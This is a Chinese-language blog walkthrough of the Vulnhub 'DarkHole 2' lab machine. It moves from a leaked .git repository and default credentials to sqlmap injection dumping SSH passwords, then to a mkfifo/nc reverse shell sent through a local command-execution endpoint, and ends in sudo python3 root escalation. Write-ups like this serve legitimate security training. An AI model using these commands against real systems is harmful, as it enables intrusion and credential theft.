 ```yaml
---
layout: post
title: DarkHole 2
subtitle: DarkHole 2
date: 2023-07-15 15:02
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: off
---
```


ip 扫描发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/gfbKzP.png)

扫描端口

![image.png](https://img.ghostliner.top/92tYeS.png)

目录扫描，发现 `.git` 目录，使用 `GitHack` 下载目录

```shell
# 下载GitHack
git clone https://github.com/BugScanTeam/GitHack.git
cd GitHack
# 执行
python2 GitHack.py http://192.168.163.134/.git/
```

进入到 `.git` 目录查看日志

```shell
git log
```

发现有三个版本，第二版本在`login.php`添加了默认凭证

![image.png](https://img.ghostliner.top/3Kf9f3.png)

回退版本

```shell
git reset --hard HEAD^
# or
git reset --hard a4d900a8d85e8938d3601f3cef113ee293028e10
```

查看 `login.php` 发现用户名：`lush@admin.com` 密码：`321`

![image.png](https://img.ghostliner.top/jPyGeI.png)

使用用户名密码登录成功，登陆后地址： <http://192.168.163.134/dashboard.php?id=1>

查看 `dashboard.php` , 其中 `\155`为 8 进制，`\x6f`为 16 进制

![image.png](https://img.ghostliner.top/rJ7Gcp.png)

解码 query，测试 mobile 参数未发现注入

```sql
update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1
```

测试 `id`参数是否存在注入

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" --dbs --batch
```

获取数据库
![image.png](https://img.ghostliner.top/LCfuCU.png)

获取表

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --tables
```

![image.png](https://img.ghostliner.top/LoHkow.png)

获取列

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --columns
```

![image.png](https://img.ghostliner.top/Mu8cJ4.png)

获取 ssh 表中数据

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 -T ssh --dump
```

![image.png](https://img.ghostliner.top/ij6uhn.png)

用户名：`jehad` 密码：`fool`

ssh 登录成功，查看 home 目录

![image.png](https://img.ghostliner.top/9AbmUV.png)

发现 flag 文件

![image.png](https://img.ghostliner.top/6eDntV.png)

获取到数据库用户名密码

![image.png](https://img.ghostliner.top/QtpOyP.png)

`sudo -l` 提权失败
![image.png](https://img.ghostliner.top/pbtTKM.png)

```shell
cat /etc/crontab
```

发现 losy 定时任务：在本地开放 9999 端口作为站点

![image.png](https://img.ghostliner.top/ZKmacp.png)

查看 `/opt/web` 目录下文件，可知需要构造 get 请求，参数为 `cmd`

![image.png](https://img.ghostliner.top/kXEBsn.png)

测试参数

![image.png](https://img.ghostliner.top/tX4umD.png)

尝试反弹 shell

<mark>使用 nc -e 或 nc -c 都会报错</mark>

```shell
# mkfifo /tmp/f
curl http://127.0.0.1:9999?cmd=mkfifo%20%2Ftmp%2Ff
# echo "cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f" >/tmp/tt
curl http://127.0.0.1:9999?cmd=echo%20%22cat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20-nv%20192.168.163.132%204444%20%3E%2Ftmp%2Ff%22%20%3E%2Ftmp%2Ftt
# chmod +x /tmp/tt
curl http://127.0.0.1:9999?cmd=chmod%20%2Bx%20%2Ftmp%2Ftt
# /bin/bash /tmp/tt
curl http://127.0.0.1:9999?cmd=%2Fbin%2Fbash%20%2Ftmp%2Ftt
```

反弹成功切换为用户 `losy`

![image.png](https://img.ghostliner.top/bfO3pi.png)

查看 `.bash_history` 获取到 losy 用户密码：`gang`

![image.png](https://img.ghostliner.top/3VDxKW.png)

SSH 登录，`sudo -l` 查看是否能提权

![image.png](https://img.ghostliner.top/p1rd3x.png)

使用 python3 提权

```shell
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```

root 提权成功

![image.png](https://img.ghostliner.top/8Dr4PW.png)

获取到最终 flag 文件
![image.png](https://img.ghostliner.top/ILL2cW.png)
